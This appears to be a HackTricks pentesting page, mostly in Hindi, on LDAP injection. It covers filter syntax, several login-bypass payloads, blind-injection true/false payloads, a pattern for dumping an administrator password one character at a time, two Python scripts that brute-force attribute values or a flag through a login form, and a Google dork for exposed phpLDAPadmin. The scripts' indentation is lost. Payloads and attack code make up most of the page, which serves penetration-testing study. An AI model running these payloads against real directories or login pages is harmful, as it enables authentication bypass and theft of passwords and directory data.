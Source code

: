 # LDAP Injection

## LDAP Injection

{{#include ../banners/hacktricks-training.md}}

## LDAP Injection

### **LDAP**

**यदि आप जानना चाहते हैं कि LDAP क्या है, तो निम्नलिखित पृष्ठ पर जाएं:**

{{#ref}}
../network-services-pentesting/pentesting-ldap.md
{{#endref}}

**LDAP Injection** एक हमला है जो वेब अनुप्रयोगों को लक्षित करता है जो उपयोगकर्ता इनपुट से LDAP कथन बनाते हैं। यह तब होता है जब अनुप्रयोग **इनपुट को सही तरीके से साफ़ करने में विफल रहता है**, जिससे हमलावरों को **LDAP कथनों में हेरफेर** करने की अनुमति मिलती है, जो संभावित रूप से अनधिकृत पहुंच या डेटा हेरफेर का कारण बन सकता है।

{% file src="../images/EN-Blackhat-Europe-2008-LDAP-Injection-Blind-LDAP-Injection.pdf" %}

**Filter** = ( filtercomp )\
**Filtercomp** = और / या / नहीं / आइटम\
**And** = & filterlist\
**Or** = |filterlist\
**Not** = ! filter\
**Filterlist** = 1\*filter\
**Item**= सरल / वर्तमान / उपस्ट्रिंग\
**Simple** = attr filtertype assertionvalue\
**Filtertype** = _'=' / '\~=' / '>=' / '<='_\
**Present** = attr = \*\
**Substring** = attr ”=” \[initial] \* \[final]\
**Initial** = assertionvalue\
**Final** = assertionvalue\
&#xNAN;**(&)** = Absolute TRUE\
&#xNAN;**(|)** = Absolute FALSE

उदाहरण के लिए:\
`(&(!(objectClass=Impresoras))(uid=s*))`\
`(&(objectClass=user)(uid=*))`

आप डेटाबेस तक पहुंच सकते हैं, और इसमें विभिन्न प्रकार की जानकारी हो सकती है।

**OpenLDAP**: यदि 2 फ़िल्टर आते हैं, तो केवल पहले को निष्पादित करता है।\
**ADAM या Microsoft LDS**: 2 फ़िल्टर के साथ वे एक त्रुटि फेंकते हैं।\
**SunOne Directory Server 5.0**: दोनों फ़िल्टर निष्पादित करता है।

**यह बहुत महत्वपूर्ण है कि फ़िल्टर को सही सिंटैक्स के साथ भेजा जाए, अन्यथा एक त्रुटि फेंकी जाएगी। केवल 1 फ़िल्टर भेजना बेहतर है।**

फ़िल्टर को इस प्रकार शुरू करना चाहिए: `&` या `|`\
उदाहरण: `(&(directory=val1)(folder=public))`

`(&(objectClass=VALUE1)(type=Epson*))`\
`VALUE1 = *)(ObjectClass=*))(&(objectClass=void`

फिर: `(&(objectClass=`**`*)(ObjectClass=*))`** पहला फ़िल्टर होगा (जो निष्पादित होता है)।

### Login Bypass

LDAP पासवर्ड को स्टोर करने के लिए कई प्रारूपों का समर्थन करता है: स्पष्ट, md5, smd5, sh1, sha, crypt। इसलिए, यह हो सकता है कि आप जो भी पासवर्ड में डालें, वह हैश किया गया हो।
```bash
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi
```

```bash
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))
```

```bash
user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))
```

```bash
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
```

```bash
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
```

```bash
user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error
```

```bash
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
```

```bash
username=*
password=*)(&
--> (&(user=*)(password=*)(&))
```

```bash
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```
#### सूचियाँ

- [LDAP_FUZZ](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP_FUZZ.txt)
- [LDAP विशेषताएँ](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP_attributes.txt)
- [LDAP PosixAccount विशेषताएँ](https://tldp.org/HOWTO/archived/LDAP-Implementation-HOWTO/schemas.html)

### ब्लाइंड LDAP इंजेक्शन

आप किसी भी डेटा के लौटने की जांच करने और संभावित ब्लाइंड LDAP इंजेक्शन की पुष्टि करने के लिए False या True प्रतिक्रियाओं को मजबूर कर सकते हैं:
```bash
#This will result on True, so some information will be shown
Payload: *)(objectClass=*))(&objectClass=void
Final query: (&(objectClass= *)(objectClass=*))(&objectClass=void )(type=Pepi*))
```

```bash
#This will result on True, so no information will be returned or shown
Payload: void)(objectClass=void))(&objectClass=void
Final query: (&(objectClass= void)(objectClass=void))(&objectClass=void )(type=Pepi*))
```
#### डेटा डंप करें

आप ascii अक्षरों, अंकों और प्रतीकों पर पुनरावृत्ति कर सकते हैं:
```bash
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```
### Scripts

#### **मान्य LDAP फ़ील्ड खोजें**

LDAP ऑब्जेक्ट्स **डिफ़ॉल्ट रूप से कई विशेषताएँ** रखते हैं जो **जानकारी को सहेजने** के लिए उपयोग की जा सकती हैं। आप **उनमें से सभी को ब्रूट-फोर्स करने की कोशिश कर सकते हैं ताकि उस जानकारी को निकाला जा सके।** आप [**डिफ़ॉल्ट LDAP विशेषताओं की सूची यहाँ**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP_attributes.txt) पा सकते हैं।
```python
#!/usr/bin/python3
import requests
import string
from time import sleep
import sys

proxy = { "http": "localhost:8080" }
url = "http://10.10.10.10/login.php"
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

attributes = ["c", "cn", "co", "commonName", "dc", "facsimileTelephoneNumber", "givenName", "gn", "homePhone", "id", "jpegPhoto", "l", "mail", "mobile", "name", "o", "objectClass", "ou", "owner", "pager", "password", "sn", "st", "surname", "uid", "username", "userPassword",]

for attribute in attributes: #Extract all attributes
value = ""
finish = False
while not finish:
for char in alphabet: #In each possition test each possible printable char
query = f"*)({attribute}={value}{char}*"
data = {'login':query, 'password':'bla'}
r = requests.post(url, data=data, proxies=proxy)
sys.stdout.write(f"\r{attribute}: {value}{char}")
#sleep(0.5) #Avoid brute-force bans
if "Cannot login" in r.text:
value += str(char)
break

if char == alphabet[-1]: #If last of all the chars, then, no more chars in the value
finish = True
print()
```
#### **विशेष ब्लाइंड LDAP इंजेक्शन (बिना "\*")**
```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
print("[i] Looking for number " + str(i))
for char in alphabet:
r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
if ("TRUE CONDITION" in r.text):
flag += char
print("[+] Flag: " + flag)
break
```
### गूगल डॉर्क्स
```bash
intitle:"phpLDAPadmin" inurl:cmd.php
```
### अधिक पेलोड्स

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection" %}


{{#include ../banners/hacktricks-training.md}}
